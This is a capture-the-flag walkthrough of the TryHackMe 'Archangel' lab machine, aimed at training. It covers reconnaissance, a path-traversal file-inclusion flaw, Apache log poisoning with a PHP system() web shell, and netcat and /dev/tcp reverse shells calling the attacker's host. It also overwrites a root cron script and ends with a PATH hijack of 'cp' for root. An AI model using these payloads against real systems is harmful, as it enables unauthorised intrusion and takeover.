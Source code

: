 # Archangel

**Room Link:** [https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>



I added mafialive.thm to my host file and tried visiting the browser from there

**Kali**

```
subl /etc/hosts
```



<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>







**Kali**

```
curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3ll
ZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhl
cmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwg
JHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYo
IWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJ
aW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9i
b2R5PgoKPC9odG1sPgoKCg==" | base64 -d

```



<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Burpe Request

By changing the user agent I was able to start running commands&#x20;

Before

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log HTTP/1.1
Host: mafialive.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

After

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=whoami HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell

**Kali**

```
nc -lvnp 1337
```

**Command being sent**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f
```

**Burp request**

Only notable thing is to url encode the command being sent

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.125.248+1337+>/tmp/f+ HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>





### Shell - archangel

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
cat /etc/crontab
cat /opt/helloworld.sh
echo '#!/bin/bash' > /opt/helloworld.sh
echo "sh -i >& /dev/tcp/$KALI/1338 0>&1" >> /opt/helloworld.sh
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation

**Victim**

<pre><code><strong>file backup
</strong><strong>strings backup 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

We can see with strings that the program is running a cp command but it isn't using the full pathm we can use this.

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat > cp << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x cp
export PATH=/home/archangel/secret:$PATH
./backup 
```

<figure><img src="../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>



























